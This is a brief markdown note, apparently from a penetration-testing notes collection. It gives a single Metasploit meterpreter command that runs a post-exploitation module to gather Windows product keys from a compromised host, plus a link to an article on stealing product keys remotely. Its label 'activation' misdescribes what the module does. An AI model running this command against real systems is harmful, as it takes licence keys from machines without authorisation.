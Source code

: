 # Metasploit

Windows product key activation.

```
meterpreter > run post/windows/gather/enum_ms_product_keys
```

---
## References

### YeahHub

- [YeahHub: Steal Windows Product Key Remotely with Metasploit Framework](https://www.yeahhub.com/steal-windows-product-key-remotely-metasploit-framework/)